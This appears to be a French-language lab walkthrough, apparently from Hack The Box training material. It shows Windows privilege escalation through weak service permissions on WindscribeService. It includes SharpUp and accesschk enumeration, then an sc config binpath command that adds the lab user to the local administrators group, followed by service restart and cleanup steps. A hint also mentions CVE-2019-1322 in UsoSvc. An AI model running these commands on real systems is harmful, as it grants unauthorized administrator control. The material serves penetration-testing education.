 # Weak Service Permissions

### <mark style="color:red;">Weak Service Permissions</mark>

#### <mark style="color:green;">Nouvel examen de SharpUp</mark>

```
C:\htb> SharpUp.exe audit
```

#### <mark style="color:green;">Vérification des permissions avec AccessChk</mark>

```
C:\htb> accesschk.exe /accepteula -quvcw WindscribeService
 
WindscribeService
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        SERVICE_ALL_ACCESS
  RW BUILTIN\Administrators
        SERVICE_ALL_ACCESS
  RW NT AUTHORITY\Authenticated Users
        SERVICE_ALL_ACCESS
```

#### <mark style="color:green;">Vérification du groupe administrateur local</mark>

La vérification du groupe des administrateurs locaux confirme que notre utilisateur htb-student n'en est pas membre.

```
C:\htb> net localgroup administrators
```

#### <mark style="color:green;">Modification du chemin binaire du service</mark>

{% code fullWidth="true" %}
```
C:\htb> sc config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"

[SC] ChangeServiceConfig SUCCESS
```
{% endcode %}

#### <mark style="color:green;">Arrêt du service</mark>

```
C:\htb> sc stop WindscribeService
```

#### <mark style="color:green;">Démarrage du service</mark>

```
C:\htb> sc start WindscribeService
```

#### <mark style="color:green;">Confirmation de l'ajout au groupe administrateur local</mark>

```
C:\htb> net localgroup administrators
```

{% hint style="warning" %}
Un autre exemple notable est le service Windows Update Orchestrator (UsoSvc), qui est responsable du téléchargement et de l'installation des mises à jour du système d'exploitation. Il est considéré comme un service Windows essentiel et ne peut pas être supprimé. Comme il est responsable d'apporter des modifications au système d'exploitation par l'installation de mises à jour de sécurité et de fonctionnalités, il s'exécute en tant que compte tout-puissant NT AUTHORITY\SYSTEM. Avant l'installation du correctif de sécurité relatif à CVE-2019-1322, il était possible d'élever les privilèges d'un compte de service à SYSTEM. Cela était dû à des permissions faibles, qui permettaient aux comptes de service de modifier le chemin binaire du service et de démarrer/arrêter le service.
{% endhint %}

***

### <mark style="color:red;">Weak Service Permissions - Cleanup</mark>

#### <mark style="color:green;">Réversion du chemin binaire</mark>

{% code fullWidth="true" %}
```
C:\htb> sc config WindScribeService binpath="c:\Program Files (x86)\Windscribe\WindscribeService.exe"

[SC] ChangeServiceConfig SUCCESS
```
{% endcode %}

#### <mark style="color:green;">Redémarrage du service</mark>

```
C:\htb> sc start WindScribeService
```

#### <mark style="color:green;">Vérification que le service fonctionne</mark>

```
C:\htb> sc query WindScribeService
```
